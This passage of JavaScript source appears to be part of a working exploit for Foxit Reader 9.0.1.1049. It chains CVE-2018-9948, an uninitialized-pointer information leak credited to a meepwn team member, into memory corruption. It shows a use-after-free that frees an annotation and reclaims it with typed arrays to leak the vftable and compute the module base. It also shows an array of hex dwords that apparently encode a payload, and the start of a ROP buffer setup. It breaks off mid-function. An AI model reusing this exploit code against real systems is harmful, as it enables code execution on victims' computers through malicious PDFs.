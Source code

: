             claimed[0x7a] = 0x6d6d4d55;
            claimed[0x7b] = 0x496f494d;
            claimed[0x7c] = 0x456c6545;
            claimed[0x7d] = 0x454c7356;
            claimed[0x7e] = 0x6b306b5a;
            claimed[0x7f] = 0x5370394b;
            claimed[0x80] = 0x4d453445;
            claimed[0x81] = 0x6567426b;
            claimed[0x82] = 0x70426343;
            claimed[0x83] = 0x376a506f;
            claimed[0x84] = 0x6b336670;
            claimed[0x85] = 0x3045694f;
            claimed[0x86] = 0x72313563;
            claimed[0x87] = 0x7633654c;
            claimed[0x88] = 0x4235754e;
            claimed[0x89] = 0x67354558;
            claimed[0x8a] = 0x00414170;

            for (var j = 0x8b; j < c_length; j++) {
                claimed[j] = 0x6d616e6a;
            }
        }
    }

    function leak(){
        /*
            Foxit Reader Typed Array Uninitialized Pointer Information Disclosure Vulnerability
            ZDI-CAN-5380 / ZDI-18-332 / CVE-2018-9948
            Found By: bit from meepwn team
        */

        // alloc
        var a = this.addAnnot({type: "Text"});

        // free
        a.destroy();

        // reclaim
        var test = new ArrayBuffer(0x60);
        var stolen = new Int32Array(test);

        // leak the vftable
        var leaked = stolen[0] & 0xffff0000;

        // a hard coded offset to FoxitReader.exe base v9.0.1.1049 (sha1: a01a5bde0699abda8294d73544a1ec6b4115fa68)
        foxit_base = leaked-0x01f50000;
    }

    function reclaim(){

        var arr = new Array(0x10);
        for (var i = 0; i < arr.length; i++) {
            arr[i] = new ArrayBuffer(0x60);
            var rop = new Int32Array(arr[i]);
